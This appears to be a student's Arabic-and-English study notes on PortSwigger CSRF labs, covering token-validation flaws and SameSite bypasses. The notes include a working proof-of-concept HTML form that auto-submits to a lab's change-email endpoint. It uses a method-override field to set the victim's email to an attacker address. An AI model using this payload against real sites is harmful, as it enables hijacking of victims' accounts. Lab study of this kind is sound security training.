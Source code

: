 وجود ال 
 csrf without cheack
ضروري

## **CSRF where token is not tied to user session**

وجود ال 
method  and csrf without cheack
ضروري

## **CSRF where token is tied to non-session cookie**

وجود ال 
 csrf without cheack
ضروري + وجدها فوق و تحت بنفس القيمه

## **CSRF where token is duplicated in cookie**

وجود ال 
 csrf without cheack
ضروري + وجدها فوق و تحت بنفس القيمه
هتغيرها ازي 

## **SameSite Lax bypass via method override**

 دا مثال تحديدا الجزء الازرق  

`<form method="GET" action="https://0aa40087040350908163437000bd0085.web-security-academy.net/my-account/change-email">`

`<input type="hidden" name="email" value="attacker_email@attacker_domain.com">`

`<input type="hidden" name="_method" value="POST">`

`</form>`

`<script>`

`document.forms[0].submit();`

`</script>`

## **SameSite Strict bypass via client-side redirect**

من ال 
respone 
هتعرف انها 
**Strict
اما بالنسبه ل 
client-side redirect
مثلا مسار لملف js
بيحصل عليه redirction
و كمان لازم تاخد بالكمن الحته ال بالاحمر**
